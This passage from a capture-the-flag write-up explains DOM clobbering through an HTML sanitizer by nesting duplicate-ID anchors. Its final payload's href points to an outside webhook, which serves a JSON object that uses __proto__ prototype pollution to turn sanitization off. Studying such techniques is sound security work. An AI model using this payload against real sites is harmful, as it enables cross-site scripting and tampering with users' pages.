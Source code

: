 A very useful consequence of this behaviour is that we can inject strings: calling `toString()` on a link will return its `href` attribute, and that's exactly what we need. For this challenge, however, we need to create a string *inside an object*.

There are ways to clobber *deeper than one level*. One such way is to use form inputs, because they're accessible from the parent form object. For example,

```html
<form name='a'>
    <input name='b' />
</form>
```

would let us access the input using `window.a.b`. Other ways include nesting iframes and other objects, but it may be impossible to do so when dealing with sanitizers.

So it should be easy, right? We could try to put a link inside a link, or a link inside a form... but it's not as straightforward as it seems. Let's try it locally:

<img class="img-responsive" src="{{ site-url }}/assets/amtctf2023/sanity-test1.png" alt="Failed test of two-level clobbering" width="728" height="116">

<img class="img-responsive" src="{{ site-url }}/assets/amtctf2023/sanity-test2.png" alt="Another failed test of two-level clobbering" width="661" height="116">

What's happening?

Expect for inputs, objects can actually be referenced with their ID or name only from `window` directly, which makes sense. Can we get around that?

I got stuck here for a while, but as it turns out, we can. The key is having **multiple objects with the same ID**. While semantically incorrect, the JS engine will not ignore them, and will kindly put them in a collection for us; at that point, we can access a single object either by its array index or by its name, which will hopefully be unique.

<img class="img-responsive" src="{{ site-url }}/assets/amtctf2023/sanity-test3.png" alt="Successful test of two-level clobbering" width="661" height="116">

Success!

## Finalizing the payload
I spent a lot of time here, because my webhook address made the payload too long, and most free webhooks available online don't allow enabling CORS headers, which are needed to make a successful cross-site fetch.

In the end, I settled for this title:
```html
<a id="debug"><a id="debug" name="extension" href="//redacted.m.pipedream.net"></a></a>
```
The Pipedream webhook would then send the header `Access-Control-Allow-Origin: *`, and a very simple JSON object:
```json
{"report":true,"__proto__":{"sanitize":false}}
```

Why did I put `sanitize` inside `__proto__`? That was the only way I found to override a private property without a setter, as trying to inject `sanitize` directly would result in the error `TypeError: Cannot set property sanitize of #<Debug> which has only a getter`.
